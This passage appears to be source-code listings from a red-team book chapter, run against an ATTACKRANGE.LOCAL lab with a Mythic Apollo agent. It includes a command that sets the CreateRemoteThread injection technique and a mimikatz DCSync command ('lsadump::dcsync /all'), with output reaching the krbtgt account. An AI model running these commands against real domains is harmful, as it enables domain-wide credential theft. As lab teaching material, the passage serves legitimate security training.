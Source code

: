 <img src="/assets/images/10/ad-comp-1.png" style="width: 100%" title="Figure 10-4"/>
<figcaption>Figure 10-4: Permitted and blocked communication paths between Mythic and the <code>ATTACKRANGE.LOCAL</code> hosts</figcaption>
</figure>

##### Conducting DCSync Attacks

An Apollo command to set the process injection method used by the agent.

```yaml
set_injection_technique CreateRemoteThread.CreateRemoteThread
```

The formatted command-line for conducting a DCSync attack via an Apollo agent, and the resulting output.

```
mimikatz -Command \"lsadump::dcsync /all\"

  .#####.   mimikatz 2.X (x64) #XXXXX
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /all
[DC] 'attackrange.local' will be the domain
[DC] 'ar-win-dc.attackrange.local' will be the DC server
[DC] Exporting domain 'attackrange.local'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
--snip--
** SAM ACCOUNT **

SAM Username         : krbtgt
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Object Security ID   : S-1-5-21-971293030-2314070895-2582855049-502
Object Relative ID   : 502

Credentials:
```